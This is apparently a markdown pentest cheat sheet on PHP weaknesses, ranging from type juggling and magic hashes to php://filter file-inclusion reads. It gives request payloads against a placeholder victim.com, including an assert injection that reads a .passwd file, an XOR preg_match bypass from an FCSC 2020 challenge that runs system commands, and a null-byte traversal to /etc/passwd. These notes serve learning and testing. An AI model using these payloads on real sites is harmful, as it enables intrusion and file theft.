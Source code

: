 ```yaml
---
title: PHP vulnerabilities
description: PHP vulnerabilities
---
```


# PHP

## PHP Wrappers

Official docs [here](https://www.php.net/manual/en/wrappers.php).

All wrappers :

```
file:// — Accessing local filesystem
http:// — Accessing HTTP(s) URLs
ftp:// — Accessing FTP(s) URLs
php:// — Accessing various I/O streams
zlib:// — Compression Streams
data:// — Data (RFC 2397)
glob:// — Find pathnames matching pattern
phar:// — PHP Archive
ssh2:// — Secure Shell 2
rar:// — RAR
ogg:// — Audio streams
expect:// — Process Interaction Streams
```

File inclusion :

```
php://filter/resource=index.php
php://filter/read=convert.base64-encode/resource=index.php
php://filter/read=string.toupper/resource=index.php
php://filter/read=string.toupper|string.rot13/resource=index.php
```

## Type juggling

If you use ``===``, PHP will do a strict comparison.

```php
"1" == 1        True
"1" === 1       False
"admin" == 0    True
"admin" === 0   False
```

You can find the comparison table [here](https://www.php.net/manual/en/types.comparisons.php).

## Magic Hashes

You cand find a list of magic hashes [here](https://github.com/spaze/hashes).

```php
md5('QLTHNDT') = 0e405967825401955372549139051580
0e405967825401955372549139051580 = 0 exponents 405967825401955372549139051580 = 0
php > var_dump(md5('QLTHNDT') == "0");
bool(true)
```

`0 power n` is equals to `0`.

## Interesting function

**eval** code execution :

```php
eval("phpinfo();");
```

**preg_replace** code execution (removed since PHP v7.0.0)

```php
preg_replace('/test/e', 'phpinfo()', 'test');

PREG_REPLACE_EVAL
```

More informations [here](https://www.php.net/manual/en/reference.pcre.pattern.modifiers.php)

**assert** without verification :

```php
assert("strpos('includes/$_GET['name'].inc.php', '..') === false")

victim.com/index.php?name=', 'A') === false and strlen(file_get_contents('.passwd')) === 10 and strpos('

Will result as : assert("strpos('includes/', 'A') === false and strlen(file_get_contents('.passwd')) === 10 and strpos('.inc.php', '..') === false")
```

**strcmp** array / null bypass :

```php
php > var_dump(strcmp(Array(), "admin") == 0);
PHP Warning:  strcmp() expects parameter 1 to be string, array given in php shell code on line 1
bool(true)

Ex: strcmp($_GET['username'], 'admin') == 0
victim.com/index.php?name[]=
```

```php
php > var_dump(strcmp(null, "admin") == True);
bool(true)

php > var_dump(strcmp(null, "admin") === True);
bool(false)
```

**preg_match** bypass with XOR :

Example (Challenge Lipogram from FCSC 2020) :

```php
if (preg_match('/a|e|i|o|u|y|[0-9]/i', $_GET['code'])) {
 die('No way! Go away!');
} else {
 try {
 eval($code);
 } catch (ParseError $e) {
 die('No way! Go away!');
 }
}
```

Solve :

```
The goal is to create new GET parameters that will be evaluted by the function eval, but not checked by the preg_match, because the preg_match function will check only the parameter 'code'.

And then, do something like this inside eval :

$_GET['func_name']($_GET['argument']);

victim.com/index.php?func_name=system&argument=ls
will execute : system('ls')
```

```
To create GET parameters we will use the XOR operation to bypass the preg_match.

$_ = "`{{{" ^ "?<>/";                   => _GET
${$_}[_](${$_}[__]);                    => $_GET[_]($_GET[__])
${$_}[_](${$_}[__](${$_}[___]));        => $_GET[_]($_GET[__]($_GET[___]))

victim.com/index.php?code=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);&_=system&__=ls+-la

victim.com/index.php?code=$_="`{{{"^"?<>/";${$_}[_](${$_}[__](${$_}[___]));&_=highlight_string&__=file_get_contents&___=index.php
```

## Tips

### Null byte

Null Byte : %00 (PHP Version < 5.3.4)

`http://victim.com/index.php?file=../etc/passwd%00`